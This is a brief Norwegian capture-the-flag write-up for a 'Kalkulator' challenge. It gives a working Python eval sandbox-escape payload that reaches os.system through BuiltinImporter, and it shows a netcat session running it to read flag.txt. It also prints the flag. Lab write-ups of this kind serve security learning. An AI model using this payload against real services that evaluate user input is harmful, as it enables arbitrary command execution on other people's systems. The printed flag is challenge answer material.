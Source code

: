 Testet egentlig bare med samme payload som i `Kalkulator #1` og det viste seg å fungere:

Payload:
```python
[x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("echo pwned")
```

Testing:

```bash
$ nc ctf.uiactf.no 4004
Welcome to the calculator!
> [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("echo pwned")
pwned
0
> [x for x in  [].__class__.__base__.__subclasses__() if x.__name__ == 'BuiltinImporter'][0]().load_module('os').system("cat flag.txt")
UIACTF{brukerinput er fortsatt farlig å evaluere}
0
>
```

Det finnes tydeligvis en lettere måte å utnytte sårbarheten i `Kalkulator #1` da regner jeg med. 🤷🏻‍♂️

## Flagg

`UIACTF{brukerinput er fortsatt farlig å evaluere}`
